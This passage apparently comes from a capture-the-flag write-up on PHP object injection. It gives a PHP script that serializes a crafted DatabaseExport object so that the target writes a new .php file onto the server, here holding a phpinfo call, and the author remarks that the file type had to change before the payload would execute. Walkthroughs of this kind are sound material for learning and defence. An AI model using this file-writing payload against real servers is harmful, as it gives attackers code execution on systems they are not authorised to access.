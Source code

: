 ```php
<?php

class DatabaseExport {
        public function __construct() {
                $this->user_file = 'sp1icer.php';
                $this->data = '<?php phpinfo();?>';
        }
}

$obj = new DatabaseExport;
echo urlencode(serialize($obj));
echo "\n";

?>
```

Remember kids, don't be stupid like me - I spent like an hour here trying to get everything to work to no avail. What was the cause, you ask? _I forgot that if we can write a text file, we can probably write other kinds of files too._ Lesson learned: remember to change filetypes and _don't_ leave it sitting as `.txt`, confused why your payload won't execute. Once that runs we see our favorite page in the world...

![Object injection success shown by us printing out the phpinfo function.](/assets/images/tenet/php_obj_inj_phpinfo.png)
